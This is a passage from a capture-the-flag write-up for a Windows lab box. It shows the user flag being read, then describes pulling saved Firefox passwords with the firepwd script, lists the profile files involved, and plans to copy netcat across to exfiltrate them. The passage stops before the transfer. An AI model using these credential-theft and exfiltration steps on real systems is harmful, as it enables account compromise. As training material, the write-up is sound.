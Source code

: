 
## User Flag

Ok, I'm just a user. Let's have a look around:

```text
C:\Users\natbat\Desktop>dir

 Directory of C:\Users\natbat\Desktop

04/21/2020  05:00 PM             1,197 Firefox.lnk
04/20/2020  01:27 AM            13,312 gatekeeper.exe
04/21/2020  09:53 PM               135 gatekeeperstart.bat
05/14/2020  09:43 PM               140 user.txt.txt
```

We have the user flag, let's grab that:

```text
C:\Users\natbat\Desktop>type user.txt.txt
<<HIDDEN>>

The buffer overflow in this room is credited to Justin Steven and his 
"dostackbufferoverflowgood" program.  Thank you!
```

## Firefox Credentials

This is a CTF so seeing a file related to Firefox is immediately suspicious. Retrieving credentials from browser caches is a well known path for lateral movement or escalation. A quick Google found [this](https://github.com/lclevy/firepwd) python script to pull passwords out of the files held in the users profile. Following the example I find this folder:

```text
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>dir

 Directory of C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release
05/14/2020  10:30 PM                24 addons.json
05/14/2020  10:23 PM             1,952 addonStartup.json.lz4
05/14/2020  10:45 PM                 0 AlternateServices.txt
05/14/2020  10:30 PM    <DIR>          bookmarkbackups
05/14/2020  10:24 PM               216 broadcast-listeners.json
04/22/2020  12:47 AM           229,376 cert9.db
04/21/2020  05:00 PM               220 compatibility.ini
04/21/2020  05:00 PM               939 containers.json
04/21/2020  05:00 PM           229,376 content-prefs.sqlite
05/14/2020  10:45 PM           524,288 cookies.sqlite
<SNIP>
           33 File(s)     12,300,786 bytes
              14 Dir(s)  16,293,216,256 bytes free
```

Reading how firepwd works, I just need to grab the addons.json and cert9.db files. To get them over to Kali I need to first copy netcat across to Windows. Grab the 32bit exe of netcat and start a webserver:
